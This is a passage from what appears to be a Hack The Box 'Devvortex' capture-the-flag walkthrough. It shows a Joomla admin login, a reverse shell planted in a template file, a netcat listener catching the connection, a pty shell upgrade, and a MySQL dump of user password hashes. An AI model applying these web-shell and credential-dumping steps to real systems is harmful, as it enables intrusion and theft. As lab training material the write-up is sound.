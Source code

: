 As I got the password I logged into the Joomla portal as user `lewis` →

![Untitled](Devvortex/Untitled%204.png)

Now I included the reverse shell code in `/templates/cassiopeia/error.php` file →

![Untitled](Devvortex/Untitled%205.png)

I ran the `error.php` and I got the reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Devvortex]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.11.242] 60886
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 09:08:12 up 21 min,  4 users,  load average: 0.07, 0.61, 0.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
logan    pts/0    10.10.16.17      08:47    1:13   0.21s  0.21s -bash
logan    pts/1    10.10.14.52      08:50   16:36   0.09s  0.09s -bash
logan    pts/2    10.10.14.52      08:52    3:24   0.28s  0.28s -bash
logan    pts/4    10.10.15.3       09:04    1.00s  0.06s  0.06s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can not access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@devvortex:/$ whoami
whoami
www-data
www-data@devvortex:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:/$
```
{: .nolineno}
{: .nolineno}

Through mysql database I got this data →

```bash
mysql> select * from sd4fg_users \G;
*************************** 1. row ***************************
           id: 649
         name: lewis
     username: lewis
        email: lewis@devvortex.htb
     password: $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
        block: 0
    sendEmail: 1
 registerDate: 2023-09-25 16:44:24
lastvisitDate: 2023-12-04 09:40:59
   activation: 0
       params: 
lastResetTime: NULL
   resetCount: 0
       otpKey: 
         otep: 
 requireReset: 0
 authProvider: 
*************************** 2. row ***************************
           id: 650
         name: logan paul
     username: logan
        email: logan@devvortex.htb
     password: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/changes
        block: 0
```